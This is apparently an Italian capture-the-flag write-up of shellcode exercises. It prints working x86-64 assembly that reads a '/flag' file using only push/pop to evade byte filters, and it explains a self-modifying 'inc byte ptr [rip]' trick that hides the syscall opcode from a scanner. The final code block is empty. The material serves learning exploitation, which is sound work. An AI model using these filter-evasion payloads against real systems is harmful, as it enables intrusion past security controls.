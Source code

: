 Kwindi indirettamente ci sta dicendo che non possiamo usare queste istruzioni, però dal codice si nota che la funzione `pop` non ha quel byte e analogamente se si va a vedere anche la `push`. quindi basterà utilizzare pop e push per risolvere l'esercizio.

```
.intel_syntax noprefix
.global _start
_start:

    jmp pushFlag

    #open
    code:
    pop rdi
    push 2
    pop rax
    push 0
    pop rdx
    push 0
    pop rsi
    syscall

    #sendfile
    push rax
    pop rsi
    push 1
    pop rdi
    push 0
    pop rdx
    push 100
    pop r10
    push 40
    pop rax
    syscall

    push 60
    pop rax
    syscall

pushFlag:
    call code
    .byte 0x2f, 0x66, 0x6c, 0x61, 0x67
```

## Esercizio 5
Questa sfida invece fornisce questo "This challenge requires that your shellcode does not have any `syscall`, 'sysenter', or `int` instructions. System calls
are too dangerous! This filter works by scanning through the shellcode for the following byte sequences: 0f05
(`syscall`), 0f34 (`sysenter`), and 80cd (`int`). One way to evade this is to have your shellcode modify itself to
insert the `syscall` instructions at runtime." 
Che al primo sguardo è ostico, ma in realtà fornisce informazioni utili a risolverlo velocemente.
La syscall che usiamo noi è `0f05`, utilizzando la funzione `inc` si può incrementare il valore di un registro.
Kwindi la strategia usata è quella di eseguire 
```
inc byte ptr [rip]
.byte 0x0e, 0x05
```
Così facendo incrementerà il byte dell'istruzione successiva, passando da `0e05` a `0f05` che è la syscall di cui necessitiamo.
Il codice dunque risulterà così
```
```